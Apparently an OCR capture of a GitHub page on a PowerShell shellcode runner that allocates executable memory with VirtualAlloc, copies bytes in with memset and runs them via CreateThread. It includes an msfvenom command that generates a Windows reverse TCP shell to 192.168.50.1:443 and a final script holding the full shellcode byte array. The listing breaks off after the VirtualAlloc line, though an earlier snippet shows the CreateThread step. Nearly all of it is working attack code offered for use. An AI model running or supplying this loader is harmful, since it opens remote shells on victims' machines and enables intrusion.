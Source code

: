 Main logic

1. Uses VirtualAlloc to allocate memory
2. Uses memset to take each byte of payload stored in $sc and write it to the allocated memory

```
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};
```

Finally

1. Uses CreateThread to execute in-memory payload 

```
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

Main payload is missing from above, but can be generated with #msfvenom 

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f powershell -v sc`

Final script:

```PowerShell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]] $sc = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x0,0x0,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x7,0xff,0xd5,0xb8,0x90,0x1,0x0,0x0,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x5,0x68,0xc0,0xa8,0x32,0x1,0x68,0x2,0x0,0x1,0xbb,0x89,0xe6,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xc,0xff,0x4e,0x8,0x75,0xec,0x68,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x68,0x63,0x6d,0x64,0x0,0x89,0xe3,0x57,0x57,0x57,0x31,0xf6,0x6a,0x12,0x59,0x56,0xe2,0xfd,0x66,0xc7,0x44,0x24,0x3c,0x1,0x1,0x8d,0x44,0x24,0x10,0xc6,0x0,0x44,0x54,0x50,0x56,0x56,0x56,0x46,0x56,0x4e,0x56,0x56,0x53,0x56,0x68,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x89,0xe0,0x4e,0x56,0x46,0xff,0x30,0x68,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x53,0xff,0xd5;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);
```